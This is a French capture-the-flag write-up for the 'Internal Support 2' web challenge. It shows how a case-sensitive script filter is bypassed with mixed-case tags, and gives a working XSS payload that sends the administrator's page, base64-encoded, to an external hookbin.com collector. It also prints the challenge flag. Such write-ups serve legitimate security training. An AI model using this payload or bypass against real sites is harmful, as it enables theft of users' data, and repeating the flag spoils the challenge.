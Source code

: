 # Internal Support 2

## Description

Votre chance de débutant a des limites… La sécurité a été renforcée suite à la découverte de failles dans la précédente version !

Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

> Accès à l'épreuve: http://internalsupport22.chall.malicecyber.com/


## Solution

On retrouve le même formulaire que pour `Internal Support 1`.

On reessaye notre payload mais on obtient le message `Malicious code detected !`.

En déformant les balises `<script>` avec des majuscules (`<SripT>`) le payload n'est plus détecté.

On récupère ainsi de la même manière le cookie, cependant un filtrage sur l'IP est fait.

On essaye donc de récupérer le contenu de la page par le biai de l'administrateur.

```html
<scRipt> 
var req=new XMLHttpRequest();req.onload=handleResponse;req.open('get','/',true);req.send();function handleResponse(){document.location='https://hookbin.com/Z2mRGkxzdXfR33eLJ60P/?c='+encodeURIComponent(btoa(this.responseText))};
</scriPt>
```

Après décodage de la réponse, on obtient le flag.

```html
<p class="text">
- Fix the kernel panic problem on the servers
</p>

<p class="text">
- Find a solution for the XSS on the helpdesk system
</p>

<p class="text">
- Hide the flag "BEtter_BUT_ST!LL_N0tttttttttt++Prfct!" a little bit better
</p>
```

Le flag est `BEtter_BUT_ST!LL_N0tttttttttt++Prfct!`.

## Write-up

- [Nicolas Bourras](https://nicolasb.fr/blog/writeup-dghack-internal-support-2/)
